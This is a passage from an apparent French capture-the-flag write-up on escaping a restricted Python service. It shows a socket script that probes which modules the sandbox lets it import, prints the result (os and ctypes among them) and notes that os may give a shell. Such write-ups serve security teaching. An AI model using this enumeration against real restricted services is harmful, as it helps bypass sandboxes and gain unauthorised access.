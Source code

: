 ```python

#Affichage du premier message
print_recv(s)

#Variable pour afficher les logs de fin
logs_details = list()

#Tentative d'importation de toute les libs de base
for _lib in lib:
    #Suppresion de l'extension
    _lib = _lib.replace(".py", "")

    #Creation de la commande
    cmd = "import {0}\n".format(_lib).encode()

    #Lancement de la commande
    s.send(cmd)

    #Recuperation de l'output
    res = print_recv(s)

    if "Action interdite" not in res:
        logs_details.append("[+] Found libs importation : {0}".format(_lib))
    else:
        continue

for _log in logs_details:
    print(_log)
```

output :

```
[+] Found libs importation : abc
[+] Found libs importation : codecs
[+] Found libs importation : ctypes
[+] Found libs importation : encodings
[+] Found libs importation : genericpath
[+] Found libs importation : io
[+] Found libs importation : os
[+] Found libs importation : posixpath
[+] Found libs importation : site-packages
[+] Found libs importation : stat
[+] Found libs importation : struct
[+] Found libs importation : zipimport
```

Je remarque directement la présence de la lib os qui permet potentiellement de récupérer un shell.

## Récupération du binaire

Maintenant que je peux avoir accès à des fonctions du système, je vais essayer de voir le code source du service.
